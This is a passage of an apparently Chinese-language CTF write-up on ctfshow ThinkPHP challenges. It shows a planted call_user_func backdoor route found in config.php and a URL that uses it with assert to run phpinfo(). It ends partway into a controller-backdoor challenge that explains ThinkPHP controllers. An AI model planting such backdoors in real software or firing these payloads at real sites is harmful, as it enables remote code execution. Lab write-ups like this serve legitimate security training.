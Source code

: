 嘻嘻。懒得一个一个找了，直接扔d盾了，在`Common/Conf/config.php`文件里

![4](https://the0n3.top/medias/show-think/4.png)

发现在`ctfshow`模块存在`call_user_func`回调函数做后门，利用一下

```php
'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
```

![5](https://the0n3.top/medias/show-think/5.png)

测试一下，`url/index.php/ctfshow/assert/phpinfo();`

完美

![6](https://the0n3.top/medias/show-think/6.png)

对了。不要在参数里写`/`，这会和thinkphp这种把参数值写在url里的模式发生冲突

![7](https://the0n3.top/medias/show-think/7.png)

可以传递参数，用个POST参数绕过一下

![8](https://the0n3.top/medias/show-think/8.png)

## web 571

> 描述：hello,黑客建立了控制器后门，你能找到吗

谷歌一下 [thinkphp3 控制器](https://www.kancloud.cn/manual/thinkphp/1713)

可以学习到：

- ThinkPHP的控制器是一个类
- 这个类(控制器)下面定义的函数叫做操作(方法)

![9](https://the0n3.top/medias/show-think/9.png)

例子：

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function hello(){
        echo 'hello,thinkphp!';
    }
}
```

`Home\IndexController`类就代表了Home模块下的Index控制器，而hello操作就是`Home\IndexController`类的hello（公共）方法。

当访问 `http://serverName/index.php/Home/Index/hello` 后会输出：
